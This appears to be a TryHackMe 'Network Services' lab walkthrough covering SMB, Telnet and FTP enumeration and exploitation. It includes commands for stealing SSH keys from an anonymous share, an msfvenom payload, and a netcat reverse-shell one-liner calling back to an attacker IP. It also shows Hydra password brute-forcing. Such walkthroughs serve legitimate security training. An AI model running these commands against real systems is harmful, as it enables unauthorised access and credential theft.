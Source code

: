 # Activity performed as part of Network Services Room

- **Phase 1(Enumerating SMB)** :

1. Start the Attack Machine, LAB MACHINE available.
2. Run nmap to perfrom basic enumeration on the target/lab machine. Execute "nmap -sV -vv <IP>".
3. Run enum4linux to perform enumeration on SMB services as we are currently focused on SMB. Execute "ennum4linux -a <IP>" provides all the basic information regarding the target as part of the enumeration.

- **Phase 1(Exploiting SMB)** :

According to the SMB enumeration there is a misconfiguration that can help us in gaining access. As we see that "profiles" share can be accessed according to the enum4linux enumeration this the possible misconfiguration that allows Anonymous user login.
1. Execute "smbclient //<IP>/profiles -U Anonymous" command, User should be able to access the profiles share through a prompt.
2. Execute "ls" command, to list all the files listed in the share.

Among the files listed, one of the file would provide additional informaation on how to login as a user.
1. Execute "more <file_name>" command, to view the file content.

According to the file content the user John Cactus has ssh login enabled since the organization start to introduce WFH.
1. Execute "cd .ssh" command to navigate to .ssh directory present in the share.
2. Execute "ls" command to list all the directories and files present in .shh directory.

Directory contains private key and public key of RSA which can be utilizted to login through ssh. Additionally there is an authorize file.
1. Execute "mget <file_name>" and "mget <file_name>.pub" command, to get the files(public key and private key) to the local machine.
2. Execute "chmod 600 <file_name>" command, to change the permissions on the private key file.

Since, We now have both the files(Public key and Private key). We can login as John Cactus to the target machine and access the target machine. The username can be found in the public key file.
1. Executed "ssh <file_name> <username>@<IP>" command, to login to target machine as the user John Cactus.
2. Execute "ls" command to view the list of files and directories in the pwd.
3. Execute "cat smb.txt" command, to retrive the flag present in the file.

- **Phase 2(Enumerating Telnet)** :
1. Execute the command "nmap -sS -A -vv -p- <IP> > <output_file>", to get the information about the target IP. Command TCP SYN scan, Aggresive scan, port scan of all 65535 ports with level 2 verbosity.
2. Execute the command "nmap -sS -A -vv <IP>", to perform port scan on all the starndard ports of the target.

- **Phase 2(Exploiting Telnet)** :
1. Execute the command "telnet <IP> <Port>", to get connected with the target machines telnet service.

As the connection povides a footholding on the target machine. We can try out few things which can help us analyze how things are going. Accoring to information after the connection. The current port is a Backdoor used by Skidy. Following are few command which can be used .HELP, .RUN <command>, .EXIT . Upon trying to execute command using the .RUN command no output was provided on the server. In order to check its getting executed as system commands here are few things we can check.
1. Execute the command "sudo tcpdump ip proto \\icmp -i tun0"/"sudo tcpdump ip proto \\icmp -i ens5"(Your VM) or (Attackbox). To initailizea listener on the local machine.
2. Execute the command "ping <[local THM ip]/[Your VM]> -c 1", to ping the local machine from the target machine which is running a telnet service.

Upon verifying that req-res is coming up on the local machine. Continue with Exploitation.
In order to get a reverse shell on the local machine. We are using msfvenom to create a payload that can provide us the reverse shell on a specified port.
1. Execute the command "msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip]/[attack box IP] lport=4444 R", to generate a payload that can be executed on the target and receive reverse shell over the port 4444.

Explination of the above command: 
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

2. Execute the command "nc -lvnp 4444", to listen to the port on the local machine.
3. Execute the command ".RUN <payload>", to get a reverse shell on the listening port.
Payload used as part of the activity: "mkfifo /tmp/qnnue; nc 10.10.140.29 4444 0</tmp/qnnue | /bin/sh > tmp/qnnue 2>&1; rm /tmp/qnnue"

mkfifo /tmp/qnnue -> creates a new named pipe at /tmp/qnnue
nc 10.10.140.29 4444 0</tmp/qnnue -> connects to IP and sends contents of /tmp/qnnue as stdin
/bin/sh > tmp/qnnue 2>&1 -> opens terminal shell and redirects output/errors to tmp/qnnue 
rm /tmp/qnnue -> It deletes the file /tmp/qnnue from the system.

Navigate through the file structure to get the flag.

- **Phase 3(Enumerating FTP)** :
1. Run the command "nmap -sV -A -vv -p- <IP> > <output_file>", user should be able to view the nmap scan results with verbosity level of 2 and all 65535 ports are scanned with Aggresive and Service Version scan.

According to the nmap results anonymous login is allowed on FTP server which is running on port 21.
1. Run the command "ftp <IP>" and provide username as anonymous and no password, user should be able to login to ftp server successfully.
2. Run the command "ls" on the ftp server, user should be able to view list of files and directories.
3. Run the command "get <file_name>", user should be able to get the file to the local system.

- **Phase 3(Exploiting FTP)** :
Utilizing Hydra for brute force attack is the best option and the one suggested in the room.
1. Run the command "hydra -t 4 -l <username> -P /usr/share/wordlists/rockyou.txt.gz -vV <IP> ftp", user should be able find a brute force password.
Login to the ftp server using the username and password. 
1. Run the command "ftp <IP>" provide the <username> the <password> on the prompts, user should be able to login to the ftp server as the <username>.
2. Run the command "ls" on the ftp server, user should be able to view the list of files and directories.
3. Run the command "get <file_name>" on the ftp server, user should be able to get the file on the local machine.


